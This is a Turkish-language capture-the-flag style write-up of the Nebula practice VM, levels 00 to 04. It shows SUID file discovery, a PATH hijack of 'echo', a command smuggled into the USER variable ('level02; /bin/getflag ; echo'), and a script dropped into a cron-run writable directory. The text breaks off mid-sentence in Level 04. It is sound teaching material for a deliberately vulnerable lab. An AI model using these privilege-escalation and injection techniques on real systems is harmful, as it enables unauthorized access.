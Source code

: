 ```yaml
---
layout: post
title: "Nebula Write Up-1"
date: 2018-02-26
excerpt: "[Level 00-Level 04]"
comments: false
---
```

  Nebula, Linux Exploitation üzerine pratik yapma imkanı sunan zafiyetli bir sanal makinadır. Daha ayrıntılı bilgiye
[buradan](https://exploit-exercises.com/nebula/) ulaşabilirsiniz.

### Level 00

Bu level için bizden beklenen flag00 kullanıcısına ait, suid bitine sahip olan, çalıştırılabilir bir dosya bulmamız. 

{% raw %}
    level00@nebula:~$ find / -type f -user flag00 -perm -u=s 2>/dev/null
    /bin/.../flag00
    /rofs/bin.../flag00
{% endraw %}
Dosyaları incelediğimizde ELF türünde olduklarını görüyoruz. Dosyalardan birini çalıştırdığımızda,
{% raw %}
    level00@nebula:~$ /bin/.../flag00
    Congrats, now run getflag to get your flag !
    flag00@nebula:~$
{% endraw %}
flag değerini elde edebilmek için getflag dosyasını çalıştırmamız gerektiği bilgisine erişiyoruz.
{% raw %}
    flag00@nebula:~$ find / -name getflag
    /bin/getflag
    /rofs/bin/getflag
    flag00@nebula:~$ /bin/getflag
    You have successfully executed getflag on a target account
{% endraw %}

### Level 01

Bu bölümde bizden beklenen /home/flag01 dizini altında bulunan c programında, istenilen programın çalıştırılmasına sebebiyet veren zafiyeti bulmamız.Programa ait kaynak kod da aşağıdaki gibi.

{% highlight c %}
{% raw %}
    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>

    int main(int argc, char **argv, char **envp)
    {
     gid_t gid;
     uid_t uid;
     gid = getegid();
     uid = geteuid();

     setresgid(gid, gid, gid);
     setresuid(uid, uid, uid);

     system("/usr/bin/env echo and now what?");
    }
{% endraw %}
{% endhighlight %}

Programın işleyişini daha iyi anlayabilmek adına, kaynak kodda bulunan bazı fonksiyonlara bakalım.

> **gid_t getegid(void);**  çağırılan processin effective group-id değerini döndürüyor. 

> **uid_t geteuid(void);**  çağırılan processin effective user-id değerini döndürüyor. 

> **int setresgid(gid_t rgid,gid_t egid,git_t sgid);**  çağırılan processin real,effective,saved  group-id değerlerini set ediyor. 

> **int setresuid(uid_t ruid,uid_t euid,uid_t suid);**  çağırılan processin real,effective,saved user-id değerlerini set ediyor. 

`Effective uid/gid` ve `real uid/gid` kavramları arasındaki farkı da şu şekilde özetleyebiliriz:
> Shell login işlemi gerçekleştiğinde real uid/gid  ile effective uid/gid değerleri aynıdır, ve processi yaratan kullanıcının uid/gid'sine karşılık gelir. Effective uid/gid değeri; suid bitine sahip olan bir dosya çalıştırıldığında ve dosya sahibi ile dosyayı çalıştıran kullanıcı farklı olduğu durumlarda değişir. Dosya sahibinin uid/gid'sine karşılık gelir. Özet olarak real uid/gid processi yaratan kullanıcının uid/gid değerine eşitken, effective uid/gid dosya sahibinin uid/gid değerine eşit olur.

Aşina olmadığımız fonksiyonlar hakkında fikir sahibi olduktan sonra, asıl meseleye geri dönelim.Programı çalıştırdığımızda beklenen üzere bu şekilde bir çıktı elde ediyoruz.
{% raw %}
    level01@nebula:/home/flag01$ ./flag01
    and now what?
{% endraw %}
Bazı argümanlarla birlikte programı çalıştırmayı denesekte, bu yolla bir şey elde edemiyoruz. Manipüle edilebilir gibi görünen system() fonksiyonu üzerinden yürümeyi deniyoruz.Burada dikkatimizi çeken echo komutunun önünde bulunan /usr/bin/env komutu.
> `/usr/bin/env` komutu, programı değiştirilmiş bir ortamda çalıştırmayı sağlar. Bunun için PATH değişkeninde bulunan dizinlere sırası ile bakılır. Çalıştırılmak istenen program ilk hangi dizinde bulunursa, o dizindeki program çalıştırılır.

> `PATH değişkeni`, sistemin çalıştırılabilir dosyaları bulmak için nerelere bakması gerektiğini tanımlar.

Bizde PATH değişkenine yeni bir dizin ekleyip,eklediğimiz dizinin PATH değişkeninde ki sırası önemli, çalıştırmak istediğimiz dosyayı o dizine echo ismiyle kaydettiğimizde, env komutu ilk bizim echo programımız ile karşılaşacağı için onu çalıştıracaktır.
{% raw %}
    level01@nebula:/home/flag01$ PATH=/tmp:$PATH
    level01@nebula:/home/flag01$ echo $PATH
    /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
    level01@nebula:/home/flag01$ cp /bin/getflag /tmp/echo
    level01@nebula:/home/flag01$ ./flag01
    You have successfully executed getflag on a target account
{% endraw %}

### Level 02
Bu bölüm de bir önceki ile benzer olup, bizden beklenen /home/flag02 dizininde bulunan programda,istenilen programın çalıştırılmasına sebebiyet veren zafiyeti bulmak.Programa ait kaynak kod da aşağıdaki gibi.

{% highlight c %}
{% raw %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
{% endraw %}
{% endhighlight %}
Programı çalıştırmadan önce kaynak kodu inceliyoruz.getenv("USER") fonksiyonu ile çağırılan processe ait USER çevresel değişkeni öğreniliyor.Değer asprintf() fonksiyonunda ikinci parametrede yerine konuluyor. Ardından bu string buffer değişkenine atanıyor.Daha sonra buffer değişkeni system() fonksiyonuna parametre olarak veriliyor.
{% raw %}
    level02@nebula:/home/flag02$ ./flag02
    about to call system ("/bin/echo level02 is cool")
    level02 is cool
{% endraw %}
Olayı tekrar özetlemek gerekirse alınan USER değişkeni ile bir string oluşturuluyor. Ve bu string sistem üzerinde komut olarak çalıştırılıyor. Buradan bir nevi injection yapmamız gerektiğini anlıyoruz.
{% raw %}
    level02@nebula:/home/flag02$ USER="level02; /bin/getflag ; echo"
    level02@nebula:/home/flag02$ echo $USER
    level02; /bin/getflag ; echo
{% endraw %}
Böylece buffer değişkeninin içeriği "/bin/echo level02; /bin/getflag ; echo is cool" olmuş oluyor.
{% raw %}
    level02@nebula:/home/flag02$ ./flag02
    about to call system ("/bin/echo level02; /bin/getflag ; echo is cool")
    level02
    You have successfully executed getflag on a target account
    is cool
{% endraw %}

### Level 03
/home/flag03 dizininde birtakım dosyaların var olduğu ve her iki dakikada bir çağırılan bir crontab bulunduğu bilgisi verilmiş.Leveli tamamlayabilmek için flag03 kullanıcısı ile getflag dosyasının çalıştırılması gerektiğini biliyoruz.
{% raw %}
    level03@nebula:/home/flag03$ file *
    writable.d: directory
    writable.sh: POSIX shell script text executable
    level03@nebula:/home/flag03$ cat writable.sh
    #!/bin/bash
     
    for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5 ; bash -x "$i")
        rm -f "$i"
    done
{% endraw %}
Script özetle, writable.d dizininde bulunan bash script dosyalarını çalıştırıp ardından siliyor.
> `ulimit` komutu, sistem kaynaklarının hangi ölçülerde kullanıldığının istatistiğini verir ve bunları sınırlamayı sağlar.
-t parametresi ile de kaynağın, her bir process tarafından kullanılabileceği saniye sayısı belirtilmiş.

Cronun hangi kullanıcı için yazıldığını öğrenmeye çalışıyoruz.
{% raw %}
     level03@nebula:/home/flag03$ crontab -l
     no crontab for level03
     level03@nebula:/home/flag03$ crontab -u flag03 
     must be privileged to use -u
{% endraw %}
Farklı bir yol deneyip, /tmp dizini içerisinde dosya oluşturan bir script yazıyoruz. Cron çalıştıktan sonra  /tmp dizininde oluşan dosyanın sahibini kontrol ediyoruz. 
{% raw %}
     level03@nebula:/home/flag03/writable.d$ echo "touch /tmp/test" > test.sh
     level03@nebula:/home/flag03/writable.d$ cd /tmp
     level03@nebula:/tmp$ ls -l
     -rwxrwxr-x 2 flag03 flag03 40 2018-02-26 14:18 test
{% endraw %}
Böylece cronun flag03 kullanıcısı için yazıldığını görmüş oluyoruz. Şimdi yapmamız gereken getflag dosyasını çalıştıracak bir script yazmamız. 
{% raw %}
     level03@nebula:/home/flag03/writable.d$ echo "/bin/getflag > /tmp/output " > getflag.sh
     level03@nebula:/home/flag03/writable.d$ cd /tmp
     level03@nebula:/tmp$ ls
     output test
     level03@nebula:/tmp$ cat output
     You have successfully executed getflag on a target account
{% endraw %}
### Level 04
/home/flag04 dizininde kaynak kodu aşağıdaki gibi olan bir c programı ve okumamız gereken token dosyası bulunuyor. 
{% highlight c %}
{% raw %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
{% endraw %}
{% endhighlight %}
Programı daha iyi yorumlayabilmek adına bazı noktalara değinelim.
> Main çalıştırılan ilk fonksiyondur. Bu fonksiyona verilecek parametreler program çalıştırılmadan önce dışarıdan gönderilir.

`int argc` toplam parametre sayısını tutar.

` char **argv ` string değişkenlerini tutar.argv[0], programın adıdır.

./flag04 token örneğinde argc değişkeninin değeri 2, argv[0] flag04 , argv[1] token olur.
Konumuzla çok alakalı olmasa
